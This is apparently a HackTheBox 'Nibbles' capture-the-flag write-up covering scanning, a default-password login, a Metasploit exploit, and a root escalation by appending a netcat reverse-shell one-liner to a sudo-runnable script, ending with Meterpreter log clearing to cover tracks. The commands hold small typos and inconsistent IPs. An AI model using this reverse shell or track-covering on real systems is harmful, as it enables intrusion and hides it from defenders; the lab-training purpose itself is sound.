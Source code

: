 [Back to Main Page](../index.html) 

# Nibbles on HackTheBox





## Introduction

--

## 1. Initial Scanning

As usual we only have the IP so we start an nmap scan.

`nmap 10.10.10.68`

![1nmap](https://i.imgur.com/2rih64N.png)

nmap did find SSH and Port 80.
Due this we check out the webpage and look closer at the source code.

![1source](https://i.imgur.com/lYBc5oS.png)

Intersting. /nibbleblog/
Therefore we use nibble against /nibbleblog/. DIRB is a Web Content Scanner.

`dirb http://10.10.10.75/nibbleblog/`

![1source](https://i.imgur.com/lYBc5oS.png)

It shows admin.php, which is an login interface.

## 2. Using the basics to get access

Before trying to break into it, always try some defaults. admin:nibbles

![1break](https://i.imgur.com/17wiJUm.png)

We're in! 
After a while of searching the webinterface and not getting any further I decided to check for exploits. 
I looked up for any exploit with nibble in it and GOTCHA.  
 
`searchsploit nibble`

![1search](https://i.imgur.com/rFxtQsi.png)

Of course, I used the metasploit exploit, so I called in the msf console.

## 3. Exploit

The Metasploit Project is well known for its anti-forensic and evasion tools, some of which are built into the Metasploit Framework.
Metasploit currently has over 1677 exploits, organized under the following platforms: AIX, android, bsd, bsdi, cisco, firefox, freebsd, hpux, irix, java, javascript, linux, mainframe, multi (applicable to multiple platforms), netbsd, netware, nodejs, openbsd, osx, php, python, R, ruby, solaris, unix, and windows.

![1splot](https://i.imgur.com/CISJNvpg.png)

Setup the exploit. Additional we set the Listerner LHOST to our IP and LPORT to 4000.
After that we fired it up.

![2splot](https://i.imgur.com/ZE648q2.png)

## 4. Capturing the Flag

Somebody left the flag after exploiting the monitor.sh in the /tmp/ folder, but I wanted to get it for real myself.
I found a zip within home/nibbler with a monitor.sh in it.

![1ctf](https://i.imgur.com/HfUWxlj.png)

After that I did set up a nc listener on post 2491 and added following command into the monitor.sh file.

`echp "rm/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.XXX 2491 >/tmp/f" >> monitor.sh`

Thank you for that command @sicurolab.

![2ctf](https://i.imgur.com/ANHg0Jv.png)

We then execute the monitor.sh file with /usr/bin/sudo and receive our root shell.

![3ctf](https://i.imgur.com/J05iDMS.png)

`cat root.txt` - system flag captured!

## 8. Cleanup
 
Firstup I cleaned the whole /tmp/ folder to make it harder for future players. 
Since this is a CTF, cleanup isn’t mandatory.
However, we want to develop good habits and operational security practice. Meterpreter has a `clearev` command that can be used to cover our tracks - let’s run it and be out of here.









